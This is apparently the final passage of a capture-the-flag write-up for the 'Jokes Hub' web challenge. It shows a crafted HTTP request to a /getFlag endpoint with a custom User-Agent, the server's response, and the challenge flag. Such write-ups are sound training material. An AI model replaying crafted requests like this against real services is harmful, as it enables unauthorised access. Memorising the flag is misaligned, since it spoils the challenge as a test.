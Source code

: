 ```
GET /getFlag/0fd3f5550fc3662c07bea5219abbc7fcadbda7d9 HTTP/1.1
Host: jokes-hub-1.bsides.shellmates.club
Cache-Control: max-age=0
Sec-Ch-Ua: "Not;A=Brand";v="99", "Chromium";v="106"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: flagger-user
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Length: 17
```

```
HTTP/1.1 200 OK
server: nginx/1.22.0 (Ubuntu)
date: Sat, 06 May 2023 10:19:34 GMT
content-type: text/html; charset=utf-8
content-length: 59
connection: close

Shellmates{A_L0ng_waY-Fr0m_LAUGHING_AT_J0K3$_T0_My_SYSTEM}
```

## Flag

Shellmates{A_L0ng_waY-Fr0m_LAUGHING_AT_J0K3$_T0_My_SYSTEM}